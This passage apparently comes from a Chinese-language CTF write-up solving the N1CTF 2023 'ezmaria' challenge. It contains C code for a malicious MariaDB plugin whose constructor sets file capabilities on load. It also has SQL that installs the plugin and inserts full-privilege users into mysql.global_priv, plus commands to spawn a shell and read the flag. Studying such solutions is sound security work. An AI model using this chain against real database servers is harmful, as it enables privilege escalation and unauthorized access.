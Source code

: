 剩下的问题就是如何让mariadb加载这个插件了，官方wp只用了简单一行命令：

```bash
mariadb --plugin-dir=. --default-auth=cap
```

实测这里虽然报错"ERROR 1156 (08S01): Got packets out of order"，但插件是可以正常加载的

![image-20231024122354862](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20231024122354862.png)

或者说这里报错也是一个很好的方式，如果不报错 反弹回来的非标准shell就会卡在试图交互的mariadb上，再执行命令就需要再弹一次了

这份[wp](https://blog.bawolff.net/2023/10/ctf-writeup-n1ctf-2023-ezmaria.html)给出了另一种加载插件的方式：安装插件，将mariadb内的mysql库调整为完整功能的内置库，插入可以登录的用户数据，用新的mysql用户登录触发插件加载，读取flag

完整过程：

https://github.com/MariaDB/server/blob/0c1bf5e247e86260359852c0d3753cd53b8ae937/plugin/auth_dialog/dialog.c后添加以下内容

```cpp
#include <sys/capability.h>

#define handle_error(msg) \
   do { perror(msg); } while (0)

__attribute__((constructor))
void foo(void) {
        cap_t cap = cap_from_text( "cap_dac_override=epi" );
        if (cap == NULL) handle_error( "cap_from_text" );
        int res = cap_set_file( "/mysql/priv", cap );
        if (res != 0 ) handle_error( "cap_set_file" );
}
```

```
$ mariadb -u root -h 127.0.0.1 -p123456 -n

use mysql;
source /usr/share/mysql/mysql_system_tables.sql; -- install defaults for mysql db

INSTALL PLUGIN two_questions SONAME "dialog_examples.so";

INSERT INTO `global_priv` VALUES ('%','foo','{\"access\":1073741823,\"version_id\":100521,\"plugin\":\"two_questions\",\"authentication_string\":\"*00A51F3F48415C7D4E8908980D443C29C69B60C9\",\"password_last_changed\":1698000149}' );

INSERT INTO `global_priv` VALUES ('%','root','{\"access\":1073741823,\"version_id\":100521,\"plugin\":\"mysql_native_password\",\"authentication_string\":\"**6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9\",\"password_last_changed\":1698000149}' );

FLUSH PRIVILEGES;
```

```bash
# 重新弹shell
mysql -u foo2 -h 127.0.0.1 -n --plugin-dir=./plugin
/mysq/priv /flag
```

